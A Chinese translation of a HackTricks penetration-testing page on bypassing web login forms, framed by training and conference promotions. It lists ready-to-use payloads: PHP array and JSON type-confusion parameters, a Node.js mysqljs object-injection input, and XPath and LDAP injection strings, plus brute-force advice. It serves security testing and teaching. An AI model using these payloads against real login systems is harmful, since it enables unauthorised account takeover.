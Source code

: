 # 登录绕过

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **在 Twitter 上关注** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

<figure><img src="https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-L_2uGJGU7AVNRcqRvEi%2Fuploads%2FelPCTwoecVdnsfjxCZtN%2Fimage.png?alt=media&#x26;token=9ee4ff3e-92dc-471c-abfe-1c25e446a6ed" alt=""><figcaption></figcaption></figure>

[**RootedCON**](https://www.rootedcon.com/) 是 **西班牙** 最相关的网络安全事件，也是 **欧洲** 最重要的活动之一。该大会的 **使命是促进技术知识**，是各个学科技术和网络安全专业人士的一个热烈交流点。

{% embed url="https://www.rootedcon.com/" %}

## **绕过常规登录**

如果你发现一个登录页面，这里有一些技术可以尝试绕过它：

* 检查页面内的 **评论**（向下滚动并向右？）
* 检查是否可以 **直接访问受限页面**
* 检查 **不发送参数**（不发送任何或仅发送 1 个）
* 检查 **PHP 比较错误：** `user[]=a&pwd=b` , `user=a&pwd[]=b` , `user[]=a&pwd[]=b`
* **将内容类型更改为 json** 并发送 json 值（包括布尔值 true）
* 如果你收到一条说 POST 不被支持的响应，可以尝试用 `Content-Type: application/json` 发送 **JSON 到请求体中，但使用 GET 请求**
* 检查 nodejs 潜在的解析错误（阅读 [**这篇文章**](https://flattsecurity.medium.com/finding-an-unseen-sql-injection-by-bypassing-escape-functions-in-mysqljs-mysql-90b27f6542b4)）：`password[password]=1`
* Nodejs 会将该有效负载转换为类似以下的查询：` SELECT id, username, left(password, 8) AS snipped_password, email FROM accounts WHERE username='admin' AND`` `` `**`password=password=1`**`;` 这使得密码位始终为真。
* 如果你可以发送 JSON 对象，可以发送 `"password":{"password": 1}` 来绕过登录。
* 记住，要绕过此登录，你仍然需要 **知道并发送有效的用户名**。
* **在调用 `mysql.createConnection` 时添加 `"stringifyObjects":true`** 选项将最终 **阻止在参数中传递 `Object` 时的所有意外行为**。
* 检查凭据：
* [**默认凭据**](../../generic-hacking/brute-force.md#default-credentials) 的技术/平台
* **常见组合**（root，admin，password，技术名称，带有这些密码的默认用户）。
* 使用 **Cewl** 创建字典，**添加** **默认** 用户名和密码（如果有），并尝试使用所有单词作为 **用户名和密码** 进行暴力破解。
* **使用更大的字典进行暴力破解（**[**暴力破解**](../../generic-hacking/brute-force.md#http-post-form)**)**

### SQL 注入认证绕过

[这里你可以找到几种通过 **SQL 注入** 绕过登录的技巧](../sql-injection/#authentication-bypass)。

在以下页面中，你可以找到一个 **自定义列表以尝试通过 SQL 注入绕过登录**：

{% content-ref url="sql-login-bypass.md" %}
[sql-login-bypass.md](sql-login-bypass.md)
{% endcontent-ref %}

### 无 SQL 注入认证绕过

[这里你可以找到几种通过 **无 SQL 注入** 绕过登录的技巧](../nosql-injection.md#basic-authentication-bypass)**.**

由于无 SQL 注入需要更改参数值，你需要手动测试它们。

### XPath 注入认证绕过

[这里你可以找到几种通过 **XPath 注入** 绕过登录的技巧](../xpath-injection.md#authentication-bypass)
```
' or '1'='1
' or ''='
' or 1]%00
' or /* or '
' or "a" or '
' or 1 or '
' or true() or '
'or string-length(name(.))<10 or'
'or contains(name,'adm') or'
'or contains(.,'adm') or'
'or position()=2 or'
admin' or '
admin' or '1'='2
```
### LDAP注入认证绕过

[在这里你可以找到几种通过**LDAP注入**绕过登录的技巧。](../ldap-injection.md#login-bypass)
```
*
*)(&
*)(|(&
pwd)
*)(|(*
*))%00
admin)(&)
pwd
admin)(!(&(|
pwd))
admin))(|(|
```
### 记住我

如果页面有“**记住我**”功能，检查它是如何实现的，看看你是否可以利用它来**接管其他账户**。

### 重定向

页面通常在登录后重定向用户，检查你是否可以更改该重定向以导致[**开放重定向**](../open-redirect.md)。如果你将用户重定向到你的网站，可能会窃取一些信息（代码、cookies...）。

## 其他检查

* 检查你是否可以通过登录功能**枚举用户名**。
* 检查密码/**敏感**信息**表单**的**输入**中是否激活了**自动完成**：`<input autocomplete="false">`

## 自动工具

* [HTLogin](https://github.com/akinerkisa/HTLogin)

<figure><img src="https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-L_2uGJGU7AVNRcqRvEi%2Fuploads%2FelPCTwoecVdnsfjxCZtN%2Fimage.png?alt=media&#x26;token=9ee4ff3e-92dc-471c-abfe-1c25e446a6ed" alt=""><figcaption></figcaption></figure>

​​[**RootedCON**](https://www.rootedcon.com/) 是**西班牙**最相关的网络安全事件，也是**欧洲**最重要的事件之一。该大会的**使命是促进技术知识**，是各个学科技术和网络安全专业人士的一个热烈交流点。

{% embed url="https://www.rootedcon.com/" %}

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 检查[**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **在** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**上关注我们。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
